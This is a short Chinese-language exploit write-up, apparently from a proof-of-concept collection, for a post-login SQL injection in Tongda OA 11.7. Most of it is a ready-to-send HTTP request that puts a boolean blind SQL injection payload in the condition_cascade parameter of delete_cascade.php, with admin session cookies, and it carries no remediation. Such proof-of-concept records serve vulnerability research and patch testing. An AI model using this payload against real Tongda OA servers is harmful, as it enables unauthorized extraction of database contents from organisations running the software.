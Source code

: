# 通达OA 11.7 后台sql注入漏洞

### 漏洞影响版本
11.7

### 利用前提
需要登录后才可以

### POC
其中 `condition_cascade` 参数存在Boolean 盲注
```http request
GET /general/hr/manage/query/delete_cascade.php?condition_cascade=select if((substr(user(),1,1)='r'),1,power(8888,88)) HTTP/1.1
Host: 192.168.77.137
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20200101 Firefox/82.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: http://192.168.77.137/general/index.php?isIE=0&modify_pwd=0
Cookie: PHPSESSID=vA8ZHgClYnJzI3sGocm1LBbW27; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c71fa06d
DNT: 1
Connection: close
```